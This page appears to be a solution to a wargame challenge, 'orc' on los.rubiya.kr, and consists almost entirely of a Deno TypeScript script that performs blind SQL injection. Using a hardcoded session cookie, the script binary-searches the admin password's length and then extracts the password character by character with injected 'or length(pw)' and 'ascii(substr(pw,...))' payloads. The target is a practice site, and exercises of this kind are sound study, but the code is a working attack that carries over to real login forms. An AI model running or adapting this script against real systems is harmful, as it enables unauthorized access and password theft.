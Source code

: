 
# コード

deno で実行

```ts
const SESSION_COOKIE = "flqhag5p3ht49enaoiceppm9o0";
const TARGET_URL =
    "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php";

const sendRequest = async (query: string) => {
    const response = await fetch(`${TARGET_URL}?${query}`, {
        headers: { Cookie: `PHPSESSID=${SESSION_COOKIE}` }
    });
    return await response.text();
};

const judge = (text: string) => {
    return text.match(/Hello admin/g)?.length == 1;
};

let left = 0;
let right = 100;
while (left + 1 != right) {
    const val = Math.round((right - left) / 2) + left;
    if (
        judge(await sendRequest(`pw=' or length(pw) <= ${val} and id='admin`))
    ) {
        right = val;
    } else {
        left = val;
    }
}

const length = right;
console.log(`length=${length}`);

let i = 0;
let result = "";
while (i != length) {
    left = 0;
    right = 256;
    while (left + 1 != right) {
        const val = Math.round((right - left) / 2) + left;
        if (
            judge(
                await sendRequest(
                    `pw=' or ${val} > ascii(substr(pw,${
                        i + 1
                    },1)) and id='admin`
                )
            )
        ) {
            right = val;
        } else {
            left = val;
        }
    }
    result += String.fromCharCode(left);
    ++i;
}

console.log(`pw=${result}`);
```